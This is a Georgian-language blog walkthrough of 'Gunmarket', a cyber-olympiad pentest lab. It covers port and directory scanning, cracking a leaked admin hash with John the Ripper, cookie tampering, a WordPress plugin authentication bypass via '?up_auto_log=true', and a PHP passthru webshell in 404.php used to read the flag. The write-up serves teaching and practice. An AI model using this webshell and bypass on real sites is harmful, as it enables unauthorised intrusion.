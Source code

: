 # Pentest: Gunmarket

გამარჯობა, დღეს განვიხილავ კიბერ ოლიმპიადის მორიგი კატეგორიის Pentest-ის ერთ-ერთ სავარჯიშოს, Gunmarket-ს და ვეცდები, თითოეული ნაბიჯი…

გამარჯობა, დღეს განვიხილავ კიბერ ოლიმპიადის მორიგი კატეგორიის **Pentest**\-ის ერთ-ერთ სავარჯიშოს, **Gunmarket**\-ს და ვეცდები, თითოეული ნაბიჯი დეტალურად ავხსნა.

უკვე განხილული კატეგორიები თუ გაინტერესებს, შეგიძლია გაეცნოთ:

> **_Pcap Analysis_**_ — _[_https://bit.ly/2M9L7f0_](https://bit.ly/2M9L7f0)

> **_რა არის Buffer Overflow ?_**_\-_ [_https://bit.ly/2GZbNLr_](https://bit.ly/2GZbNLr)

> **Log analysis **— [https://bit.ly/2HntEMc](https://bit.ly/2HntEMc)

აღნიშნულ დავალებაში განვიხილავთ ისეთ თემებს, როგორებიცაა:

*   პორტების სკანირება
*   **Salted** პაროლების გატეხვა **JohnTheRipper** ის საშუალებით.
*   ცუდი [**cookie based authentication**](https://stackoverflow.com/questions/17769011/how-does-cookie-based-authentication-work)\- ის მაგალითს
*   დირექტორიების ენუმერაციას
*   **WPScan** ის გამოყენება და მისი დახმარებით ავტორიზაციაზე გვერდის ავლა.
*   **Webshell**

კიბერ ოლიმპიადაზე გამოყენებული სავარჯიშოები შეგიძლიათ [**cyber-lab**](https://cyber-lab.tech/geo/challenges) — ზე იხილოთ.

მაშ ასე, ამოცანის პირობა შემდეგია:

![](img/1__98M9EnXdlkwxUwRSLLgKKw.png)

მოცემული გვაქვს ორი კითხვა, რომლებიც 2 გასაღების პოვნას გვავალებს.

მოდი დავიწყოთ პირველი გასაღების ძებნა.

> **nmap -sC -sV -oA nmap/gunmarket 185.212.254.63**

*   \-**sC —** დეფაულტ სკრიპტებისთვის.
*   **\-sV —** ვერსიების ენუმერაციისთვის.
*   **\-oA nmap/gunmarket —** აუთფუთის ფაილში ჩასაწერად.

![](img/1__D8XEEFXm7GPsk5nGIRN9HQ.png)

გავიგეთ რომ საიტზე ღიაა პორტი **80**, მოდი გავხსნათ ის ვნახოთ რა გვაქვს მოცემული:

![](img/1__cFO__kHnbs4B5LHQ0HOpFxA.png)

მოცემულია მხოლოდ მარკეტის სურათი, სორსშიც საინტერესო არაფერია:

![](img/1____WoLo8SKda6rP1cWOu6uGg.png)

### გადავიდეთ დირექტორიების ენუმირაციაზე

ენუმირაციისთვის გამოვიყენოთ dirb-ი

> **dirb** [http://185.212.254.63](http://185.212.254.63)

> **P.S.** Ip თქვენ შემთხვევაში სავარაუდოთ სხვა იქნება.

**dirb**\-მა რამდენიმე საინტერესო რამ იპოვა, პირველი — ეს არის ფოლდერი **/wp**, ხოლო მეორე **/.bash\_history** ფაილი, რომელმაც სავარაუდოთ საინტერესო ინფორმაცია უნდა მოგვცემს.

![](img/1__keU__QrpsgywBP3cAsHGzVQ.png)

/**wp** დირქტორიაზე წვდომა არ გვაქვს:

![](img/1__exsoqwaUciNUT5__Z53Itjw.png)

ხოლო **/.bash\_history** — ის ნახვა თავისუფლად შეგვიძლია.

![](img/1__Q__fQ__CG8LjgKDjtkTggqHw.png)

მასში ჩახედვისას საინტერესო ინფორმაციას ვგებულობთ:

*   დირექტორია **/ctf/admin**
*   ადმინის იუზერნეიმი და პაროლი(ჰეშირებული).

![](img/1__ev366r__IXUb1nz5McPGsQQ.png)

**/ctf/admin** დირექტორიაზე გადასვლისას გვთხოვს იუზერნეიმსა და პაროლს.

![](img/1__GDZsO__z9VWARVAzNT2roRA.png)

იუზერნეიმი უკვე ვიცით, რომ **admin**\-ია, პაროლის გასაგებად კი **JohnTheRipper**\-ი გამოვიყენოთ.

პაროლის გასატეხად **john**\-თან ერთად დაგვჭირდება ვორდლისტი, ამ შემთხვევაში გამოვიყენებ **rockyou**\-ის, რომლის ჩაწერაც აღნიშნული ლინკიდან შეგიძლიათ — [**rockyou**](https://github.com/brannondorsey/naive-hashcat/releases/tag/data)**.**

### გავტეხოთ პაროლი

> რაიმე ფაილში ჩაწერეთ პაროლის ჰეში, ჩემ შემთხვევაში **gunmarket\_pass** — ში მოვათავსე ის.

![**echo ‘admin:$apr1$T9QLutEh$9Y192r5I3TI52/bsdksIy.’ > gunmarket\_pass**](img/1__gP__YxbiWgF0bddVyFIHRmw.png)
**echo ‘admin:$apr1$T9QLutEh$9Y192r5I3TI52/bsdksIy.’ > gunmarket\_pass**

> **john — wordlist=rockyou.txt gunmarket\_pass**

> სადაც **rockyou.txt** თქვენი პაროლების სიის მისამართია, ხოლო **gunmarket\_pass**\- იმ ფაილის მისამართი სადაც პაროლის ჰეშია მოთავსებული.

![](img/1__mX9qct54dYqsjj7T50JYvQ.png)

გავიგეთ ადმინის პაროლიც — **admin123.**

შეგვიძლია დავუბრუნდეთ **/ctf/admin/** დირექტორიას, სადაც **Cookie Monster**\-ის ფოტო გვხდება.

![](img/1__xtZO4G5iYEfJnLWd8z__MMw.png)

ჰინთი უკვე გასაგებია, დროა ქუქებს ჩავხედოთ:

ქუქებში ერთი ველი გვაქვს მოცემული, სახელად **username** ხოლო მისი მნიშვნელობა, ჩვენ შემთხვევაში **guest\_user**\-ია.

![](img/1__MMB37uiQ9BzamhHU8janqA.png)

მოდი შევცვალოთ **guest\_user** — **admin**\-ით და ვნახოთ რამოხდება:

![](img/1__UkHCi9dhA8kIELDjGjQtUw.png)

მივიღეთ პირველი გასაღები და ჰინთი მეორე გასაღების საძიებლად.

**/wp/wordpress**\-ზე გვხდება ვორდპრესის საიტი, რომელზეც არაფერი არ არის განთავსებული, არ გვაძლევს არანაირ მინიშნებას.

![](img/1____n1Zj1UarphnN6Mtkx9rwA.png)

მოდი ვცადოთ **WPScan** და ვნახოთ მოგვცემს თუ არა რაიმე შედეგს.

> **WPScan** არის ხელსაწყო **Wordpress** ის საიტების მოწყვლადობების საძიებლად.

**WPScan**\-მა ოთხი საინტერესო მოწყვლადობა იპოვა, პირველის საშუალებით, როგორც ის გვეუბნება შეგვიძლია ავტორიზაციაზე გვერდის ავლა.

მოდი ვცადოთ მისი გამოყენება.

![](img/1__safXuxmrNmqE5iw6boqwbA.png)

როგორც [**exploit-db**](https://www.exploit-db.com/exploits/43117) დან ვგებულობთ, თუ საიტზე დეფაულტ იუზერი **admin**\-ი გვყავს, შეგვიძლია მისი ანგარიშის გამოყენება, და საიტზე ავტორიზაციის გარეშე შესვლა ლინკში — `**?up_auto_log=true**` — ის მიმატებით.

![](img/1__OdGW0UoBe3h0VlCDW46vig.png)

გადავიდეთ ლინკზე —[**http://185.212.254.63/wp/wordpress/?up\_auto\_log=true**](http://185.212.254.63/wp/wordpress/?up_auto_log=true)

იმუშავა აღნიშნულმა ექსპლოიტმა, საიტის სამართავ პანელზე წვდომა მოვიპოვეთ.

![](img/1__Ng9Ry__Mo8CIYlfr43erpRg.png)

საიტზე წვდომა გვაქვს, შემდეგი ნაბიჯია სისტემაზე წვდომის მოპოვება.

ამისთვის გამოვიყენებ **webshell**\-ს.

უამრავ ადგილას შეგვიძლია შელის განთავსება, მე აქტიური თემის **404.php** ავირჩიე.

რომლის ნახვისთვისაც უნდა შეხვიდეთ **Appearance** შემდეგ კი **editor-**ში.

საქმე კიდევ უფრო გამარტივებული დაგხვდა, **webshell** კოდი უკვე განთავსებულაი **404.php** ში.

რომლის არ არსებობის შემთხვევაშიც, უბრალოდ დავამატებდით **webshell** კოდს და შევინახავდით ფაილს.

> echo passthru($\_GET\[‘cmd’\]);

![](img/1__1eVTnG__PJvQloVAh__e7ebQ.png)

**webshell** იც გვაქვს, მის გამოსაყენებლად საკმარისია გადავიდეთ იმ მისამართზე, სადაც ისაა განთავსებული და არგუმენტად გადავცეთ **cmd=** და შემდეგ ის ბრძანება, რისი გაშვებაც გვინდა.

საცდელად გავუშვათ **cmd=ls**

![](img/1__4Ll2U1SDlBNNwsjTCocGeg.png)

ჩვენი შელი მუშაობს, ისღა დაგვრჩენია მეორე გასაღები ვიპოვოთ.

რამდენიმე დირექტორიით უკან გასვლის შემდეგ, გვხდება ფაილი, რომელიც სავარაუდოთ ჩვენი მეორე გასაღებია.

![](img/1__ky0__7QGX2woIqhAUGkZeow.png)

მის სანახავად საკმარისია **ls** შევცვალოთ **cat** ით და მისამართში დავამატოთ ჩვენი ფაილის სახელი:

![[**http://185.212.254.50/wp/wordpress/wp-content/themes/twentyseventeen/404.php?cmd=cat%20../../../../../s3cr3t\_fil3\_for\_transactions**](http://185.212.254.50/wp/wordpress/wp-content/themes/twentyseventeen/404.php?cmd=cat%20../../../../../s3cr3t_fil3_for_transactions)](img/1__UzNPGb8BNWFOYU0qcLjHpg.png)
[**http://185.212.254.50/wp/wordpress/wp-content/themes/twentyseventeen/404.php?cmd=cat%20../../../../../s3cr3t\_fil3\_for\_transactions**](http://185.212.254.50/wp/wordpress/wp-content/themes/twentyseventeen/404.php?cmd=cat%20../../../../../s3cr3t_fil3_for_transactions)

მეორე გასაღებიც ვიპოვეთ.

კიბერ ოლიმპიადა ძალიან კარგი საშუალებაა ახალი ინფორმაციის შესასწავლად, [**cyber-lab**](https://cyber-lab.tech/) ზე შეგიძლიათ აკეთოთ სავარჯიშოები, რომლებიც გაგაცნობენ რეალურ ინციდენტებს, უამრავი ვორდპრესის **“**დეველოპერი**”** უშვებს მსგავს შეცდომას, არ ანახლებენ დროულად პლაგინებს, აყენებენ გატეხილებს (რომლებშიც გარანტირებულია მსგავში შელ კოდები).

**Feedback is welcome ;)**

By [Aleksi Kistauri](https://medium.com/@aleksikistauri) on [August 24, 2019](https://medium.com/p/16ab7a934d4e).

[Canonical link](https://medium.com/@aleksikistauri/pentest-gunmarket-16ab7a934d4e)

Exported from [Medium](https://medium.com) on January 6, 2020.